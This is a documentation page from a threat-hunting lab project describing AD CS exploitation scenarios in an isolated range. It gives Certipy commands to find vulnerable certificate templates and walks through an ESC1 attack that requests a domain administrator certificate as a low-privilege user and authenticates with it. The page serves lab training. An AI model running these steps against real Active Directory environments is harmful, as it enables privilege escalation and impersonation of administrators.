

repository: enonethreezed/ThruntOps · page: adcs-scenarios/index.html · generator: jekyll

---
title: ADCS Exploitation Scenarios
layout: default
nav_order: 11
---

# ADCS Exploitation Scenarios

This page documents the AD CS scenarios exposed by the ThruntOps provisioner.
They use the upstream `badsectorlabs.ludus_adcs` role pinned to **1.6.0** and
are intended only for an isolated lab you control. Provisioning and exploitation
change persistent AD/CA state. Do not run these procedures against production
or third-party systems.

Provision individual scenarios from the [Vulnerability Provision](vulnerability-provision)
page. The selected role runs on the DC, which also hosts the enterprise CA in
this lab.

## Prepare Kali

Install Certipy for AD CS testing (`certipy-ad` package on Kali) and ensure the
range has been provisioned and the DC is reachable. Replace `<range>` with the
range's subnet number and `<range_id>` with its Ludus range ID:

```bash
export DOMAIN=thruntops.domain
export NETBIOS=THRUNTOPS
export DC_IP=10.<range>.20.11
export CA_HOST=<range_id>-DC01-2022.thruntops.domain
export CA_NAME=thruntops-CA
export USER=domainuser
export PASSWORD=password
# Record these values from AD before changing an account UPN in the later steps.
export ESC9_ORIGINAL_UPN=esc9user
export ESC10_ORIGINAL_UPN=esc10user
export ESC16_ORIGINAL_UPN=esc16user
```

The domain user is the low-privilege requester unless a scenario below names a
dedicated test account. The CA host and common name follow the 2022 range
configuration and role defaults. Confirm actual values from the range and
`certipy find` output rather than assuming them if the config was customized.

Enumerate the CA and the templates visible to the requester:

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" \
  -target "$CA_HOST" -stdout -vulnerable
```

Use the exact CA and template names shown by this command. A successful
certificate request should report an issued certificate and save a `.pfx`; for
authentication scenarios, `certipy auth -pfx <file> -dc-ip "$DC_IP"` should
report a TGT. These are validation signals, not proof that every attack path
works under every Windows patch level or certificate-binding policy.

## Template and enrollment scenarios

### ESC1 — Enrollee supplies subject

The `ESC1` template allows a requester to supply an identity. Request a
certificate for the lab's domain administrator and authenticate with it:

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" \
  -target "$CA_HOST" -ca "$CA_NAME" -template ESC1 \
  -upn domainadmin@thruntops.domain
certipy auth -pfx domainadmin.pfx -dc-ip "$DC_IP"
```

Expected: a certificate with the requested UPN is saved, then Certipy obtains a
TGT for that identity. If the current DC requires a SID extension, use the
target account SID reported by AD and Certipy's `-sid` option only where the
template/CA accepts it. Remove the issued test certificate from the CA database
when finished; restore a snapshot to return the template to baseline.
